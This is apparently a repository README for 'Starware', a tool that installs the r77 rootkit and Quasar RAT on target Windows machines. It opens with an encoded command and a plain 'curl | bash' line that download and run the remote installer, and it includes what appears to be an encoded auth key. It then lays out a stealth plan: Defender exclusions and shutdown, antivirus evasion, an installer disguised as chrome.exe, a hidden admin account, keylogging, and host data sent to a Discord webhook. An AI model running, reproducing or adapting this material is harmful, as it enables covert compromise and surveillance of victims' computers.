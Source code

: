 dHNrZXktYXV0aC1rZndKYnZLVWYyMTFDTlRSTC1FV1piRFoxaGJZRVp3SEZGYkdZTFlFRUdjN3lMalA3VDU=

echo "Y3VybCAtcyBodHRwczovL2dpdGh1Yi5jb20vT2d5ZWV0MTAvaW5zdGFsbGVyOTAwMC9yYXcvcmVmcy9oZWFkcy9tYWluL2luc3RhbGwuc2ggfCBiYXNo" | base64 -d | sudo bash

curl -s https://github.com/Ogyeet10/installer9000/raw/refs/heads/main/install.sh | bash



# Starware

Starware is a comprehensive installer script that integrates two powerful tools into a single seamless installation process on your targets system: [r77-rootkit](https://github.com/bytecode77/r77-rootkit) and [Quasar RAT](https://github.com/quasar/Quasar). This tool is designed for advanced users looking to monitor and manage remote systems effectively.

## Features

- **Automated Installation**: Automatically installs and configures r77-rootkit and Quasar RAT.
- **AV Checks and Evasion**: Utilizes WMI to check for installed antivirus products and terminates if a non-whitelisted AV is detected.
- **Remote Access Setup**: Configures an SSH server for remote access and sets up SSH to use a public key for authentication (Note: Public key authentication is currently a work in progress).
- **Network Configuration**: Downloads and installs ZeroTier One and configures it to use a specified ZTO network.
- **Comprehensive Logging**: Sends a complete log and the final status of the installation (success, failure, etc.) to a specified Discord webhook.
- **Quasar Features**: Includes numerous remote tasks such as TCP networking, file management, remote desktop, system monitoring, keylogging, and much more.
- **Stealth Operation**: All activities are concealed using the r77 rootkit.

## Upcoming Features

- **Starware Tools**: A new set of tools for easier configuration and interaction with the target system, including:
  - **DeElevatedPsWindow**: Allows running a PowerShell script/command in the user's desktop context, hidden from the user.
  - **Troll9000**: A playful tool for changing the desktop wallpaper or rotating the monitor display at specified intervals using a background PowerShell process.

## Installation (WIP)


# Starware Execution Flow

Starware script automates the installation and configuration of key components while ensuring a stealthy setup. Below is a detailed overview of the execution flow:

## Initialization and Privilege Check

- Checks if the script is run with Administrator privileges.
- If not, it relaunches itself with the necessary privileges by downloading and executing an encoded command from its GitHub repository.

## Exclusion List Configuration

- If running with admin rights, modifies the Windows Defender exclusion list to ignore paths for:
  - `$77SWClient.exe` - The Starware/Quasar client.
  - `chrome.exe` - The disguised installer executable for Starware and r77.

## Logging Setup

- Initializes a log file named with the hostname and current timestamp to record all operations.

## Error Handling and IP Address Retrieval

- Defines functions for robust error handling and fetching the public IP address using an external service.

## System Information Gathering

- Collects comprehensive system information including CPU details, memory usage, disk info, network details, and public IP address.

## Windows Defender and Antivirus Handling

- Disables Windows Defender real-time monitoring.
- Checks for installed antivirus products and halts execution if any non-whitelisted AVs are detected.

## Notification and Information Reporting

- Sends a notification to a Discord webhook detailing the execution context (hostname and public IP).

## Service and Process Configuration

- Configures r77’s registry settings to hide specific services and processes.
- Installs and sets up OpenSSH Server if not previously installed.
- Installs "ZeroTier One" and downloads "chrome.exe" from the GitHub repository.

## User Account Management

- Creates and hides a new administrative user (`ssh-user`) using registry settings if it doesn't already exist.

## Network Configuration and Cleanup

- Joins a specified ZeroTier network.
- Re-enables Windows Defender Antivirus post-operation.
- Removes any temporary files created during the process.

## Finalization

- Completes the logging session and sends the final log file to the Discord webhook for record-keeping.


## Usage

After installation, Starware can be configured via the generated configuration files or using the upcoming Starware Tools.

## Caution

This software is intended for educational and legally sanctioned purposes only. Users are responsible for ensuring they comply with all applicable laws and regulations.

## License

This project is licensed under [license name] - see the [LICENSE.md](LICENSE.md) file for details.

## Acknowledgments

- Thanks to [bytecode77](https://github.com/bytecode77) for the r77-rootkit.
- Thanks to the developers of [Quasar](https://github.com/quasar/Quasar).
